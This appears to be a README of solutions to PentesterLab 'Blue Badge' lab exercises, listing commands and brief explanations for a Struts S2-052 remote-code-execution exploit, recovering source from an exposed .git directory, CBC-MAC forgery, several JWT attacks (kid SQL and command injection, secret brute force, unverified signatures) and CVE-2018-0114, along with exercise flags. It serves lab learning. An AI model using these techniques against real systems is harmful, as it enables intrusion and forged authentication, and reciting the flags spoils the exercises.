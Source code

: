 ## Blue Badge

### Struts S2-052
XML deserialization to RCE

```
$ python3 s2-052.py --target http://ptl-cb6ff16c-87a44c51.libcurl.so/orders/3 --command "/usr/local/bin/score 2fdb31a2-ca58-4650-abfb-9406be061d69"
```

### Git Information Leak
Go to `/.git`

### Git Information Leak II
Exploring the `.git` directory

```
http://ptl-b59955a8-7868f360.libcurl.so/.git/HEAD
http://ptl-b59955a8-7868f360.libcurl.so/.git/refs/heads/master
http://ptl-b59955a8-7868f360.libcurl.so/.git/objects/cc/c6fa9250402cc9a7631fb0be559f00c5fd227a
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - c6fa9250402cc9a7631fb0be559f00c5fd227a |gzip  -cd -q
http://ptl-b59955a8-7868f360.libcurl.so/.git/objects/58/ace0476093d04023f84d7816adacfa7b879c43
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - ace0476093d04023f84d7816adacfa7b879c43 |gzip  -cd -q|strings -a|less
tree 182
40000 css
100644 favicon.ico
s100644 footer.php
3100644 header.php
100644 index.php
```

Read files through their hashes

```
Unfortunately, using strings does not give us the hash for each file. We can do is create our own local repo:

$ mkdir /tmp/hack
$ cd /tmp/hack
$ git init 
And copy our files in it:

$ mkdir -p .git/objects/58 .git/objects/bc
$ cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
$ cp /tmp/4f01bdd14060e4ac78b36972584909d287b6f1 /tmp/hack/.git/objects/bc/
Then we should be able to retrieve the list of hashes:

$ git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
040000 tree b352dde43705f193d2c1d4e6f6a133321186869f    css
100644 blob f303c6a7797f5e7a0d5bd31d39a7149366bbf873    favicon.ico
100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33    footer.php
100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82    header.php
100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c    index.php
Once you're there, you can keep downloading the files and copying them in the right spot to get access to the full code using git cat-file -p ....
```

Or you can use GitTools's gitdumper

```
$ ./gitdumper.sh http://ptl-b59955a8-7868f360.libcurl.so/.git/ out1
$ ./extractor.sh out1 out2
# key in header.php: 7a56a0cc-f042-4b43-97de-d4427197e8fa
```

### CBC MAC
- first get the signature for `administ` since block size is 8 bytes.
- then get the signature for `sign("administ") ^ "rator%00%00%00"`
- this signature will work for `administrator`

```
$ python3 cbc-mac.py
```

### CBC MAC II

- proper implementation of CBC-MAC uses a NULL IV.
- a string of block-size that only contains NULL bytes.
- in this application IV is random and given to user as a cookie.
- the trick from `CBC MAC 1` won't work since the IV changes each time you login.
- so the signature for `administ` will not be applicable next to for `rator%00%00%00`
- `administrator` can be written as `bdministrator`
- then xor the first character in both iv and auth.

```
$ python3 cbc-mac2.py
# 93fb87b6-11b4-485f-973e-91206b7234ba
```

### JWT III
- kid in jwt helps rotating keys, but the key retrieval might be compromised.
- the key retrieval is done prior to the signature verification.
- https://tools.ietf.org/html/rfc7515#section-4.1.4

```
$ python3 jwt-3.py #kid-injection
```

### JWT IV
- kid in jwt helps rotating keys, but the key retrieval might be compromised.
- the retrieval is done prior to the verfication of the signature therefore valid signature is not required.
- https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/
    - ruby has two ways to open a file.
    - if it uses `Kernel.open` or `open` and the filename starts with a pipe (|) then the filename will be run as a command.

```
# set kid as the command you want to execute
$ python3 jwt-4.py
```

### JWT V
bruteforce the secret key

```
$ python3 jwt-5.py
```

### JWT VI
sql injection in jwt kid header

```
$ python3 jwt-6.py
# 6224a507-98fe-4d3f-805d-ae41ada4b4ae
# 3185a61d-1b90-4c24-8ce9-5e1ee6fbc5b8
```

### JWT VII
signature not verified

```
$ python3 jwt-7.py
# 62e50e5a-32f5-430d-aeda-ac2d30bab335
```

### CVE-2018-0114 (Cisco node-jose)

- This issue impacts version prior to 0.11.
- https://nvd.nist.gov/vuln/detail/CVE-2018-0114
- JWT allows users to embed public keys (using the `jwk` value) inside the header of the token.
- Some vulnerable libraries may trust the key you're providing even if the app doesn't use jwk.

doing some research

- https://tools.ietf.org/html/rfc7517#section-3
- https://connect2id.com/products/nimbus-jose-jwt/examples/jwk-generation#rsa
- https://jwcrypto.readthedocs.io/en/latest/jwk.html#examples

can't write my own exploit

```
$ python3 other.py
```



